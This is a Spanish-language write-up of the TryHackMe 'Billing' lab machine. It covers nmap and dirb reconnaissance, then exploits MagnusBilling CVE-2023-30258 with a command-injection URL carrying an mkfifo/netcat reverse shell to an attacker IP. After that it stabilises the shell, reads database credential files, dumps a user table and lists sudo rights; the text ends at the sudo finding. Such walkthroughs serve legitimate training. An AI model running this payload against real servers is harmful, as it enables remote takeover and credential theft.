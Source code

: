 ```yaml
---
title: Billing
description: Write Up máquina Billing de Try Hack Me
published: true
date: 2025-05-06T15:23:46.118Z
tags: write up
editor: markdown
dateCreated: 2025-05-06T15:23:46.118Z
---
```


# Billing
Bienvenido, va a encontrar el write up de la máquina Billing de TryHackMe.

## Reconocimiento
Lo primero que vamos a hacer es un comando básico de detección de puertos mediante nmap. Por lo tanto el comando será
```nmap
nmap -sT -Pn -sV {IP} 
```
IMAGEN 1

Podemos observar como tenemos 3 puertos abiertos.
- Puerto 22: Para conexiones SSH
- Puerto 80: Para conexiones http
- Puerto 3306: Para base de datos SQL

Vamos a hacer un dirb para analizar todos las entradas disponibles en el website.
```
dirb http://{IP}
```
IMAGEN 2 DIRB

Observamos que tenemos el robots.txt disponible, por lo que vamos a entrar para observar que hay.

IMAGEN ROBOTS

No hay mucha información, por lo que vamos a ir al index normal.

IMAGEN INDEX

Como podemos observar, parece un login clasico, sin embargo si nos fijamos en la ventana podemos observar el nombre del software que es MagnusBilling.

Si nos vamos al website oficial podemos observar información de que usa un Framework de Javascript llamado ExtJS 6.2.0.981, esta versión es vulnerable según el CVE-2023-30258.

## Explotación
Ahora que tenemos el plan, vamos a ejecutar el script para poder hacer la sell reversa. 

Lo primero que vamos a hacer es un puerto de escucha con:
```nc -lnvp 443```

Luego vamos a escribir lo siguiente, lo cúal consiste en una ejecución de comando de forma remota mediante el path.

'http://{IP máquina}/mbilling/lib/icepay/icepay.php?democ=iamhacked;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc {IP atacante}10.9.3.144 443 >/tmp/f;#'

IMAGEN 5

Tras esto vamos a comprobar que usuario somos, con un id básico.

IMAGEN ID

Como podemos observar somos el usuario asterisk


Ahora lo que haremos será dirigirnos a /var/www/html/mbilling, donde vamos a analizar el contenido del index.php, para ver que configuración usa para el login.

IMAGEN INDEX

Como podemos observar, el archivo que nos interesa es uno ubicado en /protected/config y se llama main.php, ya qu eparece que esta toda la información.


Mirando el archivo podemos observar que toma la configuración de login de otro archivo de configuración llamado res_config_mysql.conf, ubicado en /etc/asterisk/res_config_mysql.conf.

IMAGEN BBDD

Vamos a entrar en la base de datos para ver si podemos acceder al website.

Antes vamos a securizar la shell mediante:
```
python3 -c "iport pty;pty.spawn('/bin/bash')"
```

Tras esto hacemoz Ctrl + Z y ponemos stty raw -echo;fg

Le damos a enter dos veces y ponemos export TERM=xterm.

IMAGEN SECURIZAR

Tras esto vamos a acceder a la base de datos como ibamos a hacer en un principio.

Imagen dentro

Podemos observar como tenemos una base de datos llamada mbilling, es la que usaremos y dentro tenemos muchas tablas, pero la que nos interesa se llamada pkg_user. Por lo que vamos a hacer
```mysql
SELECT * FROM pkg_user;
```

Lamentableente la información es demasiado densa para entendar.

IMAGEN BASE DE DATOS SACADA

Deberiamos descifrar la contraseña para poder acceder al usuario, sin embargo para completar la máquina no es necesario.

## Finalización
Ahora vamos a comprobar si tenemos la flag en el Home del usuario, sin embargo podemos observar que no hay, por lo que vamos a comprobar usuarios existentes y buscaremos la flag ahí.


IMAGEN FLAG


Ahora vamos a comprobar que comandos podemos hacer mediante el uso de sudo -l

IMAGEN SUDO -L


Como podemos observar, somos capaces de ejecutar el comando fail2ban-client, como root sin problema